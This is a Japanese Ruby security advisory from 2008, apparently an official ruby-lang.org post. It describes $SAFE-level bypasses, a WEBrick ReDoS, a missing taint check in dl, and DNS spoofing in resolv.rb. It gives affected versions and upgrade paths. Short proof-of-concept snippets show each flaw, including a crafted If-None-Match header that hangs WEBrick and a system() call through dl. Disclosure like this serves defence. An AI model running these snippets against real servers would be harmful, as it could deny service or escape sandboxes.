```yaml
---
layout: news_post
title: "Rubyに複数の脆弱性"
author: "Shugo Maeda"
lang: ja
---
```


Rubyに複数の脆弱性が発見されました。最新バージョンへのアップグレードを推奨します。

## 詳細

以下のような脆弱性が発見されました。

### セーフレベルの脆弱性

セーフレベルにいくつかの脆弱性が発見されました。

* untrace\_varがセーフレベル4で実行可能です。

      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }

      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* $PROGRAM\_NAMEがセーフレベル4で変更可能です。

      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join

      $PROGRAM_NAME #=> "Hello, World!"

* 安全でないメソッドがセーフレベル1〜3で呼び出される可能性があります。

      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # return wrong size
           end
           msg
         end.value
       end
      end

      $SAFE = 1 # or 2, or 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # print string which size is less than 20
      end

* Syslogの操作がセーフレベル4で実行可能です。

      require "syslog"

      Syslog.open

      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

これらの脆弱性は山口慶太さんによって報告されました。

### WEBrickのDoS脆弱性

WEBrick::HTTP::DefaultFileHandlerには、
WEBrick::HTTPUtils.split\_header\_valueの正規表現のバックトラックのため、
リクエストの処理に指数関数的時間を要する欠陥があります。

攻撃可能なサーバの例:

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

攻撃の例:

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

このリクエストの処理は実質的には終了しません。

この脆弱性はChristian Neukirchenさんによって報告されました。

### dlの汚染チェックの欠如

dlはオブジェクトの汚染フラグをチェックしないため、攻撃者に危険な関数の実行を許してしまう可能性があります。

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

この脆弱性はsheepmanさんによって報告されました。

### resolv.rbのDNSスプーフィング脆弱性

resolv.rbには、リモートの攻撃者が偽造したDNS問い合わせの返答の受け入れを許す脆弱性があります。
この危険性は問い合わせのトランザクションID とソースポートのランダム化により低減できますが、resolv.rb ではどちらも行っていません。
修正により、それらのランダム化を行うようになります。

* 参考: [CVE-2008-1447][1]

この脆弱性は田中哲さんによって報告されました。

## 脆弱性の存在するバージョン

1.8系
: * 1\.8.5以前の全てのバージョン
  * 1\.8.6-p286以前の全てのバージョン
  * 1\.8.7-p71以前の全てのバージョン

1.9系
: * r18423以前の全てのリビジョン

## 各バージョンでの対応方法

各バージョンでの対応方法を以下に記載します。

1.8系
: 1\.8.6-p287または1.8.7-p72に更新してください。
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz&gt;][2]
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz&gt;][3]

1.9 series

: Subversionで最新版をチェックアウトしてください。

      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

Rubyのパッケージを配布している各ベンダから、この脆弱性を修正した版のパッケージが提供されている場合もあります。詳細については各ベンダにお問い合わせください。

## クレジット

これらの脆弱性は山口慶太さん・Christian Neukirchenさん・sheepmanさん・田中哲さんにより Ruby Security
Teamに報告されました。

## 変更履歴

* 2007-08-08 12:24 +09:00 ruby 1.9のリビジョン番号を修正しました。
* 2007-08-11 11:31 +09:00 ruby 1.8のパッチレベルを修正しました。[Ruby 1.8.7-p72 /
  1.8.6-p287 のリリースアナウンス][4]を参照ください。

Posted by Shugo Maeda on 08 Aug 2008
{: .post-info}



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447 
[2]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz 
[3]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz 
[4]: http://www.ruby-lang.org/ja/news/2008/08/11/ruby-1-8-7-p72-and-1-8-6-p287-released/ 
